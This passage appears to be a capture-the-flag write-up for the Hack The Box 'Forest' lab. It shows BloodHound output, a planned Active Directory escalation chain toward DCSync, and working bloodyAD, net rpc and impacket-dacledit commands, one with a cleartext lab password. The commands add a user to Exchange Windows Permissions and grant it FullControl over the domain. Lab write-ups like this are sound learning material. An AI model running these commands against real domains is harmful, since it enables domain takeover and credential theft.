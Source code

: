 ```bash
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 11S
INFO: Compressing output into 20250806082113_bloodhound.zip
```

and upload the data to Bloodhound, quering for shortest path to Domain Admins we see the following

<img width="2709" height="1295" alt="2025-08-06 142327" src="https://github.com/user-attachments/assets/3a90ab2d-feee-4641-8304-0417f80081a7" />

## Exploitation Chain

 1. Since we are in the Account Operators group, we have GenericAll privilege over EXCHANGE WINDOWS PERMISSIONS, we will add ourselves to that group.

 2. From EXCHANGE WINDOWS PERMISSIONS, we have permission to modify the DACL (Discretionary Access Control List) on the HTB.LOCAL domain.

 3. From here, we can perform a DC Sync attack.

> DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos krbtgt keys used legitimately for tickets creation, but also for tickets forging by attackers. The consequences of this attack are similar to an NTDS.dit dump and parsing but the practical aspect differ. A DCSync is not a simple copy & parse of the NTDS.dit file, it's a DsGetNCChanges operation transported in an RPC request to the DRSUAPI (Directory Replication Service API) to replicate data (including credentials) from a domain controller.

Step 1: Add our user to Exchange Windows Permissions

```bash
└─$ bloodyAD --host "10.129.162.127" -d "HTB.LOCAL" -u "svc-alfresco" -p "<REDACTED>" add groupMember "EXCHANGE WINDOWS PERMISSIONS" "svc-alfresco"
[+] svc-alfresco added to EXCHANGE WINDOWS PERMISSIONS
```

Lets confirm that we are now in that group:

```bash
─$ net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "HTB.LOCAL\svc-alfresco" -S 10.129.162.127                                          
Password for [HTB.LOCAL\svc-alfresco]:
HTB\Exchange Trusted Subsystem
HTB\svc-alfresco
```

Step 2: Modify domain DACL, granting ourself `fullcontrol` rights.
```bash
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -principal 'svc-alfresco' -target-dn 'DC=htb,DC=local' -inheritance "HTB.LOCAL"/"svc-alfresco":"s3rvice"         
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250806-084223.bak
[*] DACL modified successfully!
```
